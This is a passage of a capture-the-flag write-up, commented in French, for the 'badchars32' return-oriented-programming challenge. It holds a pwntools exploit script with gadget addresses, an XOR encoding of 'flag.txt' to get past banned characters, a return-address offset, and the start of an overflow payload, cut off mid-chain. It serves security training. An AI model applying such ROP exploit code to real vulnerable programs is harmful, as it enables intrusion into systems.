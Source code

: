 
## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# break apres le read dans pwnme
gs='''
b *pwnme+273
c
'''

# Gadgets
# mov dword ptr [edi], esi ; ret
g_write_edi=0x0804854f

# xor byte ptr [ebp], bl ; ret
g_xor_ebp = 0x08048547

# pop esi ; pop edi ; pop ebp ; ret
g_pop_esiediebp = 0x080485b9

# pop ebp ; ret
g_pop_ebp = 0x080485bb

#  pop ebx ; ret
g_pop_ebx = 0x0804839d

def xorchain(chain, bytes, mask):
    r=b""
    for i,c in enumerate(chain):
        if bytes&0x80:
            c=c^mask
        r+=chr(c).encode()
        bytes= bytes<<1
    return r

# Offset avant ecrasement de l'adresse de retour
offset=0x2c

# Set up pwntools for the correct architecture
elf =  ELF('badchars32')
context.binary=elf

#print_file=elf.plt['print_file']
print_file=elf.symbols['usefulFunction']+14

data = elf.get_section_by_name('.data').header['sh_addr']

flagxored = xorchain(b"flag.txt",0b00111010,3)

log.info(f"{data=:x}")
log.info(f"flag xored :" + flagxored.decode())

PL =b"A"*offset
# On ecrit "fl__" dans data
PL+=p32(g_pop_esiediebp)
```